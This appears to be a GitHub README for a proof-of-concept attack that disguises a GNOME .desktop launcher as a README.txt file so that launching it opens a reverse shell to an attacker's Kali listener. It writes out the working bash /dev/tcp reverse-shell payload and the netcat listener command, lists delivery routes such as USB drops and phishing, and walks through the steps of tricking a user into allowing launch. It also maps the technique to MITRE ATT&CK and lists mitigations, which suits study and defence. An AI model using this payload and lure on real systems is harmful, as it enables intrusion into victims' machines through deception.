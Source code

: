 # Reverse Shell Delivery via `.desktop` Launcher


## Objective

- Disguise an executable reverse shell as a trusted, text-based document  
- Deliver the payload in a single file, with no external dependencies  
- Trigger a reverse shell back to a Kali Linux listener upon click

---

## Threat Model

### Attacker Goals

- Gain an interactive remote shell on the target system  
- Maintain stealth through social engineering and file disguise  
- Avoid detection by not requiring administrative privileges or file downloads  

### Assumptions

- The victim uses a GNOME-based Linux desktop (e.g., Ubuntu)
- The user is socially engineered into trusting and launching the disguised file  
- The target machine has outbound network access to the attacker's listener  

### Attacker Capabilities

- Ability to craft a malicious `.desktop` launcher with a reverse shell payload  
- Means of delivering the file to the target (e.g., via USB, phishing, shared folder)  
- Control over a listener machine to receive incoming connections (Kali with `nc`)  

### Victim Environment

- User operates under a non-restricted Linux desktop environment  
- No outbound firewall blocking the reverse shell connection  
- Default GNOME behavior is intact (trust prompt on `.desktop` files)

---

## MITRE ATT&CK Techniques

The following table maps the techniques used in this proof-of-concept to the [MITRE ATT&CK Framework](https://attack.mitre.org/):

| Tactic                  | Technique                                 | ID            | Description |
|-------------------------|-------------------------------------------|---------------|-------------|
| **Initial Access**      | User Execution: Malicious File            | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | The `.desktop` file is disguised as a benign `README.txt` to trick the user into executing it. |
| **Execution**           | Command and Scripting Interpreter: Bash   | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Bash is used to execute the reverse shell payload. |
| **Defense Evasion**     | Masquerading                              | [T1036](https://attack.mitre.org/techniques/T1036/) | The launcher file mimics a `.txt` document with a text icon and filename. |
| **Command and Control** | Application Layer Protocol: Custom TCP    | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | The reverse shell uses a raw TCP connection (via Netcat). |

---

### Limitations

- Requires user interaction (file must be trusted and launched)  
- The payload runs with the user’s privileges (not root)  
- Network-dependent: reverse shell fails if outbound traffic is blocked   

### Mitigations

- Disable `.desktop` file execution from user-writable directories  
- Enforce outbound firewall rules or use network segmentation  
- Improve user awareness through training against disguised file traps  

---

## Implementation Details

### File: `README.txt.desktop`

- **Filename shown to user:** `README.txt`  
- **Real extension:** `.desktop` (GNOME launcher)  
- **Icon used:** `text-x-generic` (appears like a text file)  
- **Trust method:** GNOME “Allow Launching” system  

### Payload Logic

```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.14/6969 0>&1'
```
---

## Deployment and Execution

### Attacker Setup (Kali Linux)

The attacker prepares a Netcat listener on port `6969` to receive the reverse shell connection:

```bash
nc -lvnp 6969
```
### Victim Interaction

The attacker delivers the `README.txt.desktop` file to the target system. Possible delivery methods include:

- USB drop (removable media left in a shared area)
- File sharing platforms (e.g., shared folders, cloud drives)
- Email attachment (if not filtered)
- Direct messaging (Slack, Discord, etc.)

The user must:

1. Save the file to their Desktop.
2. **Right-click the file and select "Allow Launching"**. This is required to make the launcher executable in GNOME.
3. Double-click the file to run it.
4. Once launched, the payload executes silently and initiates a reverse shell to the attacker.

If the user does not manually allow launching, the file will remain inert and appear as plain text.


---

## Screenshots

- Disguised file on Desktop  
  `![Disguised File]([images/disguised-file.png])`

- User manually selects “Allow Launching”  
  `![Allow Launching](images/allow-launching.png)`

- Reverse shell connection received  
  `![Shell Connected](images/shell-connected.png)`

---

## Conclusion

This proof-of-concept demonstrates how `.desktop` launcher files can be leveraged to gain remote shell access through basic user interaction and visual deception. Despite its simplicity, this method is capable of bypassing technical defenses when paired with effective social engineering.
